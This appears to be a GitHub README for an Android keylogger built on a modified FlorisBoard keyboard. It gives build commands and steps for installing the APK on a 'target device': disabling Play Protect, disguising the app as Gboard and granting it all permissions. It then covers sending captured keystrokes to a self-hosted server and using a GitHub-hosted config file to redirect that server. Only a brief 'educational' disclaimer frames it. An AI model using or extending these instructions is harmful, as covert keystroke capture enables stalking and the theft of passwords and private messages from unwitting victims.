


```markdown
<h1 align="center" style="color:red;">Android Keylogger</h1>
<p align="center"><b>By Warsecurity Research Team</b></p>



---

> This project is for educational and research purposes only.  
> Unauthorised access to devices is illegal. Use only on devices you own or have explicit permission to test.  
> The Warsecurity GitHub profile is not responsible for illegal distribution or misuse.

---

<h2 style="color:red;">Full Installation and Build Instructions</h2>



### Prerequisites (Build from Source)

If you already have the prebuilt APK, skip to the installation section. Otherwise, to build from source you need:

- Ubuntu 22.04 or newer
- Java 17
- Android SDK (platform 34, build-tools 34)
- Android NDK 29.0.14206865
- CMake 4.1.2
- Rust toolchain with Android targets
- Gradle 8.x (wrapper included)
- Python 3

#### 1. Install Java 17

```bash
sudo apt update
sudo apt install openjdk-17-jdk -y
java -version
```

2. Install Android SDK Command Line Tools

```bash
mkdir -p ~/android-sdk
cd ~/android-sdk
wget https://dl.google.com/android/repository/commandlinetools-linux-11076708_latest.zip
unzip commandlinetools-linux-*.zip
mkdir -p cmdline-tools
mv cmdline-tools cmdline-tools/latest
export ANDROID_HOME=$HOME/android-sdk
export PATH=$PATH:$ANDROID_HOME/cmdline-tools/latest/bin:$ANDROID_HOME/platform-tools
```

3. Install SDK Packages

```bash
yes | sdkmanager --licenses
sdkmanager "platform-tools" "platforms;android-34" "build-tools;34.0.0"
```

4. Install NDK and CMake

```bash
sdkmanager "ndk;29.0.14206865" "cmake;4.1.2"
```

5. Install Rust

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh -s -- -y
source "$HOME/.cargo/env"
rustup target add aarch64-linux-android armv7-linux-androideabi i686-linux-android x86_64-linux-android
```

6. Clone the Repository

```bash
git clone https://github.com/warsecurity/Akeylogger.git
cd Akeylogger
unzip florisboard_source.zip -d florisboard
cd florisboard
```

7. Build the APK

```bash
./gradlew assembleDebug
```

The APK will be at app/build/outputs/apk/debug/app-debug.apk.

---

<h2 style="color:red;">Installation on Target Device</h2>

3.png

1. Disable Play Protect
      Go to Settings > Google > Security > Google Play Protect and turn it off.
2. Install the APK
      Copy the APK to the device and install it.
3. Disable current Gboard (optional)
      If you want the keylogger to be the only keyboard, go to Settings > System > Languages & input > On-screen keyboard and disable Gboard or any other keyboards.
4. Enable the Keylogger Keyboard
      Enable the installed keyboard (it will appear as Gboard if renamed).
5. Allow Keyboard Permissions
      Grant all permissions requested by the keyboard.
6. Start Capturing
      Open any app and start typing. Keystrokes will be sent to your server.

---

<h2 style="color:red;">Connecting to a Server</h2>

4.png

Option 1: Host a Node.js Server on Render

1. Create a Node.js server
      Use the server.js and package.json files from this repository.
      You can deploy directly to Render:
   · Create a new Web Service on Render.
   · Connect your GitHub repo (or upload files).
   · Set build command: npm install
   · Set start command: node server.js
2. Copy your public URL
      Once deployed, copy the public URL (e.g., https://your-server.onrender.com).
      This URL must be publicly accessible from the Android device.

Option 2: Host on Your Own VPS

```bash
git clone https://github.com/warsecurity/Akeylogger.git
cd Akeylogger
npm install
node server.js
```

Your server will run on port 3000. Use a reverse proxy or expose it publicly.

---

<h2 style="color:red;">GitHub Config Fallback</h2>

The APK is designed to fetch a remote config file from GitHub every 40 seconds.
If your hardcoded server URL goes offline, you can quickly change the base URL by editing the config file on GitHub.

Steps:

1. Create a public GitHub repo (e.g., warsecurity/basee).
2. Create a config.json file in that repo with the following structure:

```json
{
  "baseUrl": "https://your-server.onrender.com/log",
  "maintenance": false,
  "message": "Service is temporarily unavailable. Please try again later.",
  "minVersion": "1.0"
}
```

3. Link the raw URL in the APK
      The APK fetches from https://raw.githubusercontent.com/<username>/<repo>/main/config.json.
      Replace <username> and <repo> with your own.
4. Update the APK
      See below for instructions on modifying the APK to point to your config URL.

---

<h2 style="color:red;">Decompiling or Building the APK to Add Your Config URL</h2>

Option A: Modify via Source Code (Recommended)

1. Open the source code (after unzipping).
2. Locate app/src/main/kotlin/dev/patrickgold/florisboard/ime/logging/Keylogger.kt.
3. Find the line:
   ```kotlin
   private const val CONFIG_URL = "https://raw.githubusercontent.com/warsecurity/basee/main/config.json"
   ```
4. Replace it with your own raw GitHub URL.
5. Rebuild the APK as described in the build instructions.

Option B: Decompile with APK Editor (No source code needed)

1. Install APK Editor Pro on the Android device.
2. Open the APK in APK Editor and select Full Edit.
3. Navigate to smali or search for the string config.json or raw.githubusercontent.com.
4. Replace the URL with your own.
5. Save and rebuild the APK.
6. Install the modified APK.

---

<h2 style="color:red;">Disclaimer</h2>

This project is for educational and research purposes only.
The developers are not responsible for any illegal use or distribution.
Always obtain explicit permission before testing on any device you do not own.

```
